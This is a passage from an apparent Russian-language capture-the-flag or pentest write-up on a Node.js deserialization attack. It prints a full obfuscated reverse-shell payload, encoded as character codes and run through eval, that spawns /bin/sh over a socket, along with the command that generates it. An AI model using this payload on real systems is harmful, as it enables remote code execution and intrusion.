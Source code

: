 ## Reverse-Shell
Я использовал [этот](https://github.com/hoainam1989/training-application-security/blob/master/shell/node_shell.py "training-application-security/node_shell.py at master · hoainam1989/training-application-security") скрипт для генерации reverse-shell'а. Он кодирует строку пейлоада в ASCII-коды, чтобы избежать путаниц с bad-символами (кавычки, слэши и т. д.), а при выполнении на сервере будет использована функция *String.fromCharCode*, которая выполнит обратное преобразование.

Сгенерируем нагрузку:
```text
root@kali:~# python node_shell.py -h <LHOST> -p 31337 -r -e -o
=======> Happy hacking <======

{"run": "_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,32,32,32,32,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,32,32,32,32,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,32,32,32,32,72,79,83,84,61,34,49,50,55,46,48,46,48,46,49,34,59,10,32,32,32,32,80,79,82,84,61,34,51,49,51,51,55,34,59,10,32,32,32,32,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,32,32,32,32,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,32,32,32,32,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,10,32,32,32,32,99,40,72,79,83,84,44,80,79,82,84,41,59,10,32,32,32,32))}()"}
```

Опять модифицируем пейлоад под конкретную ситуацию (добавляем ключи из "легитимного" профиля):
```
```